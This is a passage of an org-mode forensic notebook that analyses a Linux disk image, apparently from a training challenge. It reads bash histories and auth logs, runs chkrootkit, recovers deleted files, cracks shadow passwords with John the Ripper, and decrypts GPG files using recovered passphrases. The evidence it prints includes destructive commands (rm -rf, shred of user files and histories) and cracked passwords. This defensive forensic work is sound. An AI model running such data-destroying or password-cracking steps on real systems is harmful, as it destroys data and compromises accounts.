      sudo cat /images/sda1/home/ubuntu/.bash_history
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    sudo vi /etc/apt/sources.list
    sudo apt-get update
    sudo apt-get dist-upgrade
    sudo shutdown -r now
    #+END_SRC

*** Root account

    Look at the root home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/root/ -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/root/
    /images/sda1/root/.profile
    /images/sda1/root/.bashrc
    /images/sda1/root/.aptitude
    /images/sda1/root/.aptitude/config
    /images/sda1/root/.bash_history
    /images/sda1/root/.viminfo
    /images/sda1/root/.lesshst
    /images/sda1/root/.rnd
    /images/sda1/root/.ssh
    /images/sda1/root/.ssh/known_hosts
    #+END_SRC

    Look at root's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/root/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    shutdown -r now
    shutdown -r now
    vi /etc/passwd
    rm -rf /home/butler
    ls
    shred -u -z motd
    shred -us -z secret/*
    shred -u -z secret/*
    rmdir secrets
    ls
    rmdir secret
    ls secret/
    shred -u -z secret/secrets/*
    rm -rf secret/
    ls
    cat /dev/urandom > file
    cat /dev/zero > file2
    ls
    rm file*
    less ~rich/.bash_history
    chown rich:rich -R /home/rich
    updatedb & find /
    cat ~rich/.bash_history
    rm ~rich/.bash_history
    shutdown -r now
    #+END_SRC

*** Look for log files

    List log files

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     ls -R /images/sda1/var/log | \
     awk '/:$/&&f{s=$0;f=0} /:$/&&!f{sub(/:$/,"");s=$0;f=1;next} NF&&f{ print s"/"$0 }' | \
     sort
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/var/log/aptitude
    /images/sda1/var/log/auth.log
    /images/sda1/var/log/btmp
    /images/sda1/var/log/daemon.log
    /images/sda1/var/log/debug
    /images/sda1/var/log/dmesg
    /images/sda1/var/log/dpkg.log
    /images/sda1/var/log/evms-engine.log
    /images/sda1/var/log/kern.log
    /images/sda1/var/log/lpr.log
    /images/sda1/var/log/mail.err
    /images/sda1/var/log/mail.info
    /images/sda1/var/log/mail.log
    /images/sda1/var/log/mail.warn
    /images/sda1/var/log/messages
    /images/sda1/var/log/news
    /images/sda1/var/log/news/news.crit
    /images/sda1/var/log/news/news.err
    /images/sda1/var/log/news/news.notice
    /images/sda1/var/log/syslog
    /images/sda1/var/log/udev
    /images/sda1/var/log/user.log
    /images/sda1/var/log/uucp.log
    #+END_SRC

    auth.log

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/var/log/auth.log
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Sep 10 00:02:10 megabucks sshd[3636]: Server listening on :: port 22.
    Sep 10 00:03:24 megabucks sshd[3721]: Accepted password for root from 10.10.10.100 port 56860 ssh2
    Sep 10 00:03:24 megabucks sshd[3723]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:03:24 megabucks sshd[3723]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:03:24 megabucks sshd[3723]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:03:24 megabucks sshd[3723]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:03:24 megabucks sshd[3723]: (pam_unix) session opened for user root by root(uid=0)
    Sep 10 00:03:55 megabucks sshd[3736]: Accepted password for gardener from 10.10.10.101 port 48537 ssh2
    Sep 10 00:03:55 megabucks sshd[3738]: (pam_unix) session opened for user gardener by (uid=0)
    Sep 10 00:03:55 megabucks sshd[3736]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:03:55 megabucks sshd[3736]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:03:55 megabucks sshd[3736]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:03:55 megabucks sshd[3736]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:04:12 megabucks sshd[3738]: (pam_unix) session closed for user gardener
    Sep 10 00:04:43 megabucks sshd[3764]: Accepted password for gardener from 10.10.10.101 port 48538 ssh2
    Sep 10 00:04:43 megabucks sshd[3770]: (pam_unix) session opened for user gardener by (uid=0)
    Sep 10 00:04:43 megabucks sshd[3764]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:04:43 megabucks sshd[3764]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:04:43 megabucks sshd[3764]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:04:43 megabucks sshd[3764]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:05:09 megabucks sshd[3766]: Accepted password for chef from 10.10.10.103 port 48539 ssh2
    Sep 10 00:05:09 megabucks sshd[3794]: (pam_unix) session opened for user chef by (uid=0)
    Sep 10 00:05:09 megabucks sshd[3766]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:05:09 megabucks sshd[3766]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:05:09 megabucks sshd[3766]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:05:09 megabucks sshd[3766]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:05:21 megabucks sshd[3792]: Accepted password for jeeves from 10.10.10.102 port 48541 ssh2
    Sep 10 00:05:21 megabucks sshd[3816]: (pam_unix) session opened for user jeeves by (uid=0)
    Sep 10 00:05:21 megabucks sshd[3792]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:05:21 megabucks sshd[3792]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:05:21 megabucks sshd[3792]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:05:21 megabucks sshd[3792]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:12:39 megabucks sshd[3794]: (pam_unix) session closed for user chef
    Sep 10 00:17:01 megabucks CRON[4011]: (pam_unix) session opened for user root by (uid=0)
    Sep 10 00:17:02 megabucks CRON[4011]: (pam_unix) session closed for user root
    Sep 10 00:24:54 megabucks sshd[3770]: (pam_unix) session closed for user gardener
    Sep 10 00:25:02 megabucks sshd[3816]: (pam_unix) session closed for user jeeves
    Sep 10 00:26:46 megabucks sshd[4254]: Accepted password for gardener from 10.10.10.101 port 53440 ssh2
    Sep 10 00:26:46 megabucks sshd[4258]: (pam_unix) session opened for user gardener by (uid=0)
    Sep 10 00:26:46 megabucks sshd[4254]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:26:46 megabucks sshd[4254]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:26:46 megabucks sshd[4254]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:26:46 megabucks sshd[4254]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:27:09 megabucks sshd[4256]: Accepted password for chef from 10.10.10.103 port 53441 ssh2
    Sep 10 00:27:09 megabucks sshd[4285]: (pam_unix) session opened for user chef by (uid=0)
    Sep 10 00:27:09 megabucks sshd[4256]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:27:09 megabucks sshd[4256]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:27:09 megabucks sshd[4256]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:27:09 megabucks sshd[4256]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:27:30 megabucks sshd[4252]: Accepted password for jeeves from 10.10.10.102 port 53439 ssh2
    Sep 10 00:27:30 megabucks sshd[4308]: (pam_unix) session opened for user jeeves by (uid=0)
    Sep 10 00:27:30 megabucks sshd[4252]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:27:30 megabucks sshd[4252]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:27:30 megabucks sshd[4252]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:27:30 megabucks sshd[4252]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:27:55 megabucks sshd[4258]: (pam_unix) session closed for user gardener
    Sep 10 00:28:04 megabucks sshd[4285]: (pam_unix) session closed for user chef
    Sep 10 00:28:37 megabucks su[4365]: + pts/2 jeeves:rich
    Sep 10 00:28:37 megabucks su[4365]: (pam_unix) session opened for user rich by (uid=1002)
    Sep 10 00:31:20 megabucks sshd[4405]: Accepted password for root from 10.10.10.107 port 48542 ssh2
    Sep 10 00:31:20 megabucks sshd[4407]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:31:20 megabucks sshd[4407]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:31:20 megabucks sshd[4407]: lastlog_filetype: Couldn't stat /var/log/lastlog: No such file or directory
    Sep 10 00:31:20 megabucks sshd[4407]: lastlog_openseek: /var/log/lastlog is not a file or directory!
    Sep 10 00:31:20 megabucks sshd[4407]: (pam_unix) session opened for user root by root(uid=0)
    Sep 10 00:37:15 megabucks su[4484]: + pts/2 rich:root
    Sep 10 00:37:15 megabucks su[4484]: (pam_unix) session opened for user root by (uid=1001)
    Sep 10 00:37:42 megabucks su[4484]: (pam_unix) session closed for user root
    Sep 10 00:37:51 megabucks su[4365]: (pam_unix) session closed for user rich
    Sep 10 00:38:19 megabucks su[4512]: + pts/2 jeeves:root
    Sep 10 00:38:19 megabucks su[4512]: (pam_unix) session opened for user root by (uid=1002)
    Sep 10 00:38:40 megabucks sshd[3636]: Received signal 15; terminating.
    #+END_SRC

*** Look for binary files

    #+BEGIN_SRC sh
      sudo ls -la /images/sda1/bin | grep jack
      sudo ls -la /images/sda1/usr/bin | grep jack
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
#+END_SRC

*** Motd

    Look at the welcome SSH message

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/motd
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Linux megabucks 2.6.15-29-server #1 SMP Wed Aug 29 14:26:14 UTC 2007 i686 GNU/Linux

    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    ---------------------------------------------------------------------
      Welcome to the computer system of the richest man in the country!
    ---------------------------------------------------------------------
    #+END_SRC

*** John The Ripper
    <<johntheripper>>

    !This is done on my local computer!

    I downloaded the *passwd* and *shadow* file from the system to my
    local computer and executed =john= on the file.

    #+CAPTION: Results
    #+BEGIN_SRC text
      butler           (jeeves)
      moneymoney       (root)
      plants           (gardener)
      food             (chef)
    #+END_SRC

    Not all of the users passwords where cracked due to the time.

*** Check for rootkits
    <<chkrootkit>>

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images/chkrootkit-0.47
      sudo ./chkrootkit -r /images/sda1/
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    ROOTDIR is `/images/sda1/'
    Checking `amd'... not found
    Checking `basename'... not infected
    Checking `biff'... not found
    Checking `chfn'... not infected
    Checking `chsh'... not infected
    Checking `cron'... not infected
    Checking `crontab'... not infected
    Checking `date'... not infected
    Checking `du'... not infected
    Checking `dirname'... not infected
    Checking `echo'... not infected
    Checking `egrep'... not infected
    Checking `env'... not infected
    Checking `find'... not infected
    Checking `fingerd'... not found
    Checking `gpm'... not found
    Checking `grep'... not infected
    Checking `hdparm'... not infected
    Checking `su'... not infected
    Checking `ifconfig'... not infected
    Checking `inetd'... not infected
    Checking `inetdconf'... not infected
    Checking `identd'... not found
    Checking `init'... not infected
    Checking `killall'... not infected
    Checking `ldsopreload'... not infected
    Checking `login'... not infected
    Checking `ls'... not infected
    Checking `lsof'... not infected
    Checking `mail'... not found
    Checking `mingetty'... not found
    Checking `netstat'... not infected
    Checking `named'... not found
    Checking `passwd'... not infected
    Checking `pidof'... not infected
    Checking `pop2'... not found
    Checking `pop3'... not found
    Checking `ps'... not infected
    Checking `pstree'... not infected
    Checking `rpcinfo'... not infected
    Checking `rlogind'... not found
    Checking `rshd'... not found
    Checking `slogin'... not infected
    Checking `sendmail'... not found
    Checking `sshd'... not infected
    Checking `syslogd'... not infected
    Checking `tar'... not infected
    Checking `tcpd'... not infected
    Checking `tcpdump'... not infected
    Checking `top'... not infected
    Checking `telnetd'... not found
    Checking `timed'... not found
    Checking `traceroute'... not found
    Checking `vdir'... not infected
    Checking `w'... not infected
    Checking `write'... not infected
    Checking `aliens'... no suspect files
    Searching for sniffer's logs, it may take a while... nothing found
    Searching for HiDrootkit's default dir... nothing found
    Searching for t0rn's default files and dirs... nothing found
    Searching for t0rn's v8 defaults... nothing found
    Searching for Lion Worm default files and dirs... nothing found
    Searching for RSHA's default files and dir... nothing found
    Searching for RH-Sharpe's default files... nothing found
    Searching for Ambient's rootkit (ark) default files and dirs... nothing found
    Searching for suspicious files and dirs, it may take a while... nothing found
    Searching for LPD Worm files and dirs... nothing found
    Searching for Ramen Worm files and dirs... nothing found
    Searching for Maniac files and dirs... nothing found
    Searching for RK17 files and dirs... nothing found
    Searching for Ducoci rootkit... nothing found
    Searching for Adore Worm... nothing found
    Searching for ShitC Worm... nothing found
    Searching for Omega Worm... nothing found
    Searching for Sadmind/IIS Worm... nothing found
    Searching for MonKit... nothing found
    Searching for Showtee... nothing found
    Searching for OpticKit... nothing found
    Searching for T.R.K... nothing found
    Searching for Mithra... nothing found
    Searching for OBSD rk v1... nothing found
    Searching for LOC rootkit... nothing found
    Searching for Romanian rootkit... nothing found
    Searching for Suckit rootkit... nothing found
    Searching for Volc rootkit... nothing found
    Searching for Gold2 rootkit... nothing found
    Searching for TC2 Worm default files and dirs... nothing found
    Searching for Anonoying rootkit default files and dirs... nothing found
    Searching for ZK rootkit default files and dirs... nothing found
    Searching for ShKit rootkit default files and dirs... nothing found
    Searching for AjaKit rootkit default files and dirs... nothing found
    Searching for zaRwT rootkit default files and dirs... nothing found
    Searching for Madalin rootkit default files... nothing found
    Searching for Fu rootkit default files... nothing found
    Searching for ESRK rootkit default files... nothing found
    Searching for rootedoor... nothing found
    Searching for ENYELKM rootkit default files... nothing found
    Searching for anomalies in shell history files... nothing found
    Checking `asp'... not infected
    Checking `bindshell'... not tested
    Checking `lkm'... chkproc: not tested
    Checking `rexedcs'... not found
    Checking `sniffer'... not tested
    Checking `w55808'... not infected
    Checking `wted'... Checking `scalper'... not infected
    Checking `slapper'... not infected
    Checking `z2'... not tested: not found wtmp and/or lastlog file
    Checking `chkutmp'... chkutmp: nothing deleted
    #+END_SRC

*** Search for deleted files on Ext2.
    <<deletedfiles>>

    Searching for deleted files on a Ext2 disk.

    #+CAPTION: Commands (Need to be executed in a shell)
    #+BEGIN_SRC sh
      yes | sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC sh
    e2undel 0.82
    Trying to recover files on /dev/loop0, saving them on /images/recovered

    /dev/loop0 opened for read-only access
    /dev/loop0 was not cleanly unmounted.
    Do you want wo continue (y/n)? 731752 inodes (706253 free)
    1461883 blocks of 1024 bytes (875926 free)
    last mounted on Sat Sep 15 11:03:39 2007
    no entries for /dev/loop0 in log file
    searching for deleted inodes on /dev/loop0:
    731752 inodes scanned, 2846 deleted files found

       user name |  < 12 h |  < 48 h |   < 7 d |  < 30 d |   < 1 y |   older
    -------------+---------+---------+---------+---------+---------+--------
	    root |       3 |       0 |     237 |    2601 |       0 |       0
	    1001 |       0 |       0 |       5 |       0 |       0 |       0
    #+END_SRC

    #+CAPTION: Results

*** Look for tmp files

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      ls -lRa /images/sda1/tmp
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/tmp:
    total 3
    drwxrwxrwt  3 root root 1024 2007-09-09 22:38 .
    drwxr-xr-x 21 root root 1024 2007-09-15 11:05 ..
    drwxr-xr-x  2 1001 1001 1024 2007-09-09 22:38 extortomatic-23421

    /images/sda1/tmp/extortomatic-23421:
    total 3
    drwxr-xr-x 2 1001 1001 1024 2007-09-09 22:38 .
    drwxrwxrwt 3 root root 1024 2007-09-09 22:38 ..
    -rw-r--r-- 1 1001 1001   20 2007-09-09 22:38 key1
    #+END_SRC

*** Look for keys

    Look at the *key1* file.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo file /images/sda1/tmp/extortomatic-23421/key1
      sudo cat /images/sda1/tmp/extortomatic-23421/key1
    #+END_SRC

    #+CAPTION: Commands
    #+BEGIN_SRC Results
    /images/sda1/tmp/extortomatic-23421/key1: ASCII text
    1 23philo7dendron88
    #+END_SRC

    #+BEGIN_SRC sh
      sudo find /images/sda1 -type f -name "*key1*"
      sudo find /images/sda1 -type f -name "*key2*"
      sudo find /images/sda1 -type f -name "*key3*"
      sudo find /images/sda1 -type f -name "*key4*"
      sudo find /images/sda1 -type f -name "*key5*"
      sudo find /images/sda1 -type f -name "*key6*"
      sudo find /images/sda1 -type f -name "*key7*"
      sudo find /images/sda1 -type f -name "*key8*"
      sudo find /images/sda1 -type f -name "*key9*"
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    /images/sda1/home/rich/swiss_keys/swisskey1.gpg
    /images/sda1/tmp/extortomatic-23421/key1
    /images/sda1/home/rich/swiss_keys/swisskey2.gpg
    /images/sda1/home/rich/swiss_keys/swisskey3.gpg
    /images/sda1/home/rich/.extrtmtc/key4
    /images/sda1/home/rich/swiss_keys/swisskey4.gpg
    /images/sda1/home/rich/swiss_keys/swisskey5.gpg
    /images/sda1/home/rich/swiss_keys/swisskey6.gpg
    /images/sda1/home/rich/swiss_keys/swisskey7.gpg
    /images/sda1/home/rich/swiss_keys/swisskey8.gpg
    #+END_SRC

*** Key1

    Show the key:

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/tmp/extortomatic-23421/key1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC sh
    1 23philo7dendron88
    #+END_SRC

    Password length

    #+CAPTION: Command (LISP)
    #+BEGIN_SRC emacs-lisp
      (length "23philo7dendron88")
    #+END_SRC

    #+CAPTION: Result
    #+BEGIN_SRC emacs-lisp
    17
    #+END_SRC

    Decrypt the message:

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey1.gpg .
      echo $(awk -F" " '{print $2}'cat $(find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}')) | gpg --passphrase-fd 0 --no-tty -d swisskey1.gpg
      rm swisskey1.gpg
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    me_and_you_and_you_and_me-so_happy_2gether
    #+END_SRC

*** Key2

    Find the key

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo strings /dev/loop1 | grep "key2"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    le_key2cpu_key
    le_key2cpu_key
					    echo -n "$WPA_SUP_PNAME: wpa-private-key2 : "
					    set_network $NW_ID private_key2 "\"$IF_WPA_PRIVATE_KEY2\"" >$TO_NULL
					    echo -n "$WPA_SUP_PNAME: wpa-wep-key2 : "
				    set_network $NW_ID wep_key2 "$IF_WPA_WEP_KEY2" >$TO_NULL
    private_key2
    private_key2_passwd
    wep_key2
    Note: video modes are: -3=Ask, -2=Extended, -1=NormalVga, 1=key1, 2=key2,...
    (((key2) != ((void *)0)) && (((const isc__magic_t *)(key2))->magic == ((('D') << 24 | ('S') << 16 | ('T') << 8 | ('K')))))
	    my ($key, $key2) = @_ ;
	    # return  0 if $key1 eq $key2
	    #        -1 if $key1 lt $key2
	    #         1 if $key1 gt $key2
	    my ($key, $key2) = @_ ;
	    # return number of bytes of $key2 which are
	    my ($key1, $key2) = @_ ;
	    "\L$key1" cmp "\L$key2" ;
	    my($key1, $key2) = @_;
	    lc $key1 cmp lc $key2 ||
	    $key1 cmp $key2;
    get_attr_key2string
    get_userattr_key2string
    get_userattr_key2string: unknown schema version specified
    get_attr_key2string
    get_userattr_key2string
    get_userattr_key2string: unknown schema version specified
	and re-insert them one at a time with <key1>, all together with <key2>.
	wireless-key2 12345678
     int des_read_2passwords(DES_cblock *key1,DES_cblock *key2,
     another fork of the xMule project. It connects to eDonkey2000
     MLDonkey is a client application for the eDonkey2000 and other
      - access to EDonkey ( edonkey2000, overnet, emule )
      ,* gpg-key2ps: generate PostScript file with fingerprint paper strips
    Description: eMule client for the edonkey2000 network
    c02504d0 t sysrq_key_table_key2index
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    > ~/swiss_keys/swisskey2
    gpg --symmetric swisskey2
    shred -u swisskey2
    swisskey2.gpgpx
    gpg --symmetric swisskey2
    shred -u swisskey2
    '7  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    -'  1  0  ~/swiss_keys/swisskey2
    > ~/swiss_keys/swisskey2
    c0250780 t sysrq_key_table_key2index
    dict_key2hash_string
    key2
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
	    [-O|--sort [+|-]key1[,[+|-]key2[,...]]]
    acerhk_key2name
    '8  1  26  /home/rich/swiss_keys/swisskey2
    -'  1  26  /home/rich/swiss_keys/swisskey2
    > /home/rich/swiss_keys/swisskey2
    acerhk_key2name
    swisskey2.swp
    key2 41jade6tree29p
    key2 41jade6tree29~~~
    #+END_SRC

    The password is in the memory.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey2.gpg .
      echo "41jade6tree29" | gpg --passphrase-fd 0 --no-tty -d swisskey2.gpg
      rm swisskey2.gpg
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    everybody_dance_now_hey_now
    #+END_SRC

*** Key3

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo strings /dev/loop2 | grep "key 3"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
	    t_k3	<F3>		function key 3		*<F3>*	*t_k3* *'t_k3'*
		    <S-F3>		shifted function key 3		*<S-F3>*
    t_f3	t_k3	<F3>		function key 3			*t_f3*
    t_sf3		<S-F3>		shifted function key 3		*t_sf3*
    key 3 29azalea8flower00
    #+END_SRC

    Decrypt the message:

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey3.gpg .
      echo "29azalea8flower00" | gpg --passphrase-fd 0 --no-tty -d swisskey3.gpg
      rm swisskey3.gpg
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    what_would_you_do_if_sang_out_of_tune
    #+END_SRC

*** Key4

    Find the password file

    #+BEGIN_SRC sh
      sudo find /images/sda1/home/ -type f -name "key4"
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    /images/sda1/home/rich/.extrtmtc/key4
    #+END_SRC

    Extract the key

    #+BEGIN_SRC sh
      sudo awk -F" " '{print $2}' /images/sda1/home/rich/.extrtmtc/key4
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    11hibiscus2hibiscus23
    #+END_SRC

    Password length

    #+BEGIN_SRC emacs-lisp
      (length "11hibiscus2hibiscus23")
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC emacs-lisp
    21
    #+END_SRC

    Decrypt the file

    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey4.gpg .
      echo $(awk -F" " '{print $2}' /images/sda1/home/rich/.extrtmtc/key4 ) | gpg --passphrase-fd 0 --no-tty -d swisskey4.gpg
      rm swisskey4.gpg
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    im_pickin_up_good_vibrations
    #+END_SRC

*** Key5

    Find the password file

    #+BEGIN_SRC sh
      sudo grep -rn /images/sda1/home -e "^5 [A-Za-z0-9]*$" 2> /dev/null
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    /images/sda1/home/rich/.mozilla/cache/a234Z8x0:1:5 19rose42blossom35
    #+END_SRC

    Extract the password

    #+BEGIN_SRC sh
      awk -F" " '{print $2}'cat $(sudo grep -rn /images/sda1/home -e "^5 [A-Za-z0-9]*$" 2> /dev/null | awk -F":" '{print $1}')
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    19rose42blossom35
    #+END_SRC

    Password length

    #+BEGIN_SRC emacs-lisp
      (length "19rose42blossom35")
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC emacs-lisp
    17
    #+END_SRC

    Decrypt the file

    #+BEGIN_SRC sh
      cd ~/
      cp /images/sda1/home/rich/swiss_keys/swisskey5.gpg .
      echo $(awk -F" " '{print $2}'cat $(sudo grep -rn /images/sda1/home -e "^5 [A-Za-z0-9]*$" 2> /dev/null | awk -F":" '{print $1}')) | gpg --passphrase-fd 0 --no-tty -d swisskey5.gpg
      rm swisskey5.gpg
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC sh
    its_the_little_old_lady_from_pasadena
    #+END_SRC

*** Key{6,7,8}

    This need to be done from a real shell

    #+BEGIN_SRC text
      lnuitsac@workbench:~$ sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
      e2undel 0.82
      Trying to recover files on /dev/loop0, saving them on /images/recovered

      /dev/loop0 opened for read-only access
      /dev/loop0 was not cleanly unmounted.
      Do you want wo continue (y/n)? y
      731752 inodes (706253 free)
      1461883 blocks of 1024 bytes (875926 free)
      last mounted on Sat Sep 15 11:03:39 2007

      /dev/loop0 is mounted. Do you want to continue (y/n)? y

      reading log file: opening log file: No such file or directory
      no entries for /dev/loop0 in log file
      searching for deleted inodes on /dev/loop0:
      |==================================================|
      731752 inodes scanned, 2846 deleted files found

         user name | 1 <12 h | 2 <48 h | 3  <7 d | 4 <30 d | 5  <1 y | 6 older
      -------------+---------+---------+---------+---------+---------+--------
              root |       3 |       0 |     237 |    2601 |       0 |       0
              1001 |       0 |       0 |       5 |       0 |       0 |       0
      Select user name from table or press enter to exit: 1001
      Select time interval (1 to 6) or press enter to exit: 3

        inode     size  deleted at        name
      -----------------------------------------------------------
       368000       21  Sep  9 18:58 2007 * ASCII text
       368001       19  Sep  9 18:58 2007 * ASCII text
       368002       18  Sep  9 18:58 2007 * ASCII text
       368003      963  Sep  9 18:58 2007 * ASCII text
       703144    12288  Sep  9 22:40 2007 * application/core
      Select an inode listed above or press enter to go back: 368000
      21 bytes written to /images/recovered/inode-368000-ASCII_text
      Select an inode listed above or press enter to go back: 368001
      19 bytes written to /images/recovered/inode-368001-ASCII_text
      Select an inode listed above or press enter to go back: 368002
      18 bytes written to /images/recovered/inode-368002-ASCII_text
      Select an inode listed above or press enter to go back: 368003
      963 bytes written to /images/recovered/inode-368003-ASCII_text
      Select an inode listed above or press enter to go back: 703144
      12288 bytes written to /images/recovered/inode-703144-application_core
      Select an inode listed above or press enter to go back:

         user name | 1 <12 h | 2 <48 h | 3  <7 d | 4 <30 d | 5  <1 y | 6 older
      -------------+---------+---------+---------+---------+---------+--------
              root |       3 |       0 |     237 |    2601 |       0 |       0
              1001 |       0 |       0 |       5 |       0 |       0 |       0
      Select user name from table or press enter to exit:
      lnuitsac@workbench:~$ grep -rn /images/recovered/ -e "^5 [A-Za-z0-9]*$" 2> /dev/null
      lnuitsac@workbench:~$ grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
      /images/recovered/inode-368001-ASCII_text:1:8 26daisy99daisy99
      /images/recovered/inode-368002-ASCII_text:1:6 13tulip34root28
